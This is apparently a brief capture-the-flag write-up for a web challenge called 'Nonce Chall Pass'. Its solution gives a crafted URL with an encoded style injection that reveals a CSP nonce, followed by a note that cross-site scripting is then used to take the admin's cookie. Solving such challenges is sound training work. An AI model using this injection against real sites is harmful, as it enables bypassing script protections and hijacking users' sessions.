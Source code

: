 # Nonce Chall Pass

Gandalf wants Kuchen too!

Hard

## Solution

http://localhost:8010/?contenturl=http://ctf.eno.host:8000/content.html&reporturl=http://ctf.eno.host:8010/&reporttime=2000
Take:

http://localhost:8010/report?contenturl=http://ctf.eno.host:8000/content.html&contenttime=2000&reporturl=http://ctf.eno.host:8010/&reporttime=1000&loadmsg=%3Cstyle%3Ebody::before{content:%20attr(nonc);}%3C/style%3E

> Extract image from report
> xss to get admin cookie.
